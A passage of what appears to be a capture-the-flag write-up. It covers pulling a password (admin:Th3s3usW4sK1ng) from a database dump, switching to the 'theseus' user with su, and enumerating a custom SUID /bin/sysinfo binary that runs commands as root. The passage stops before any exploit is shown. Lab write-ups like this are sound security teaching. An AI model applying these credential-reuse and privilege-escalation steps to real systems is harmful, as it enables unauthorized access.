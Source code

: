 ```bash
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2020-08-13 19:25:07
```
There I can see there is a second set of credentials for the user - `admin:Th3s3usW4sK1ng`.

### 5. Escalate privileges
Now I can try using su with this new password.
```bash
www-data@ubuntu:/$ su - theseus
su - theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:~$ 
```
Now I have access to the theseus user.

### 6. More enumeration
To be honest, enumeration from this user is made easy due to the huge number of enum scripts others have left just lying around. Why run the same thing again when someone else has already done it and left the output in a file right in the home directory? (see linenum_out.txt, linpeas_out.txt).
I spend a while going through the outputs investigating different stuff. One thing that stood out to me was the /bin/sysinfo binary which was owned by root and readable by me, which is something I didn't remember seeing before on other enum script outputs for other machines, so it appeared out of the ordinary.
```bash
[+] Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
```
It also has the SUID bit set.
```bash
theseus@ubuntu:~$ ls -l /bin/sysinfo
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
theseus@ubuntu:~$ cd /bin/; ./sysinfo
====================Hardware Info====================
H/W path           Device      Class      Description
=====================================================
...
```
Basically it just outputs a whole lot of info on the system to the screen. It makes sense it might need to have root privileges to access some of that information. I did some more research into this file and there is a well-known app called sysinfo from MagniCorp, however none of the config files for it are present. This appears to be something custom with the same name. I can try and do some surface analysis of it from the server.
```bash
theseus@ubuntu:/bin$ file sysinfo
sysinfo: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=9e9d26d004da0634c0747d16d377cd2a934e565a, not stripped
theseus@ubuntu:/bin$ strings sysinfo
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
```
Running strace on the binary results on errors (I'm guessing running through a debugger messes up the permissions), but it is indeed running these commands as root to obtain the information.  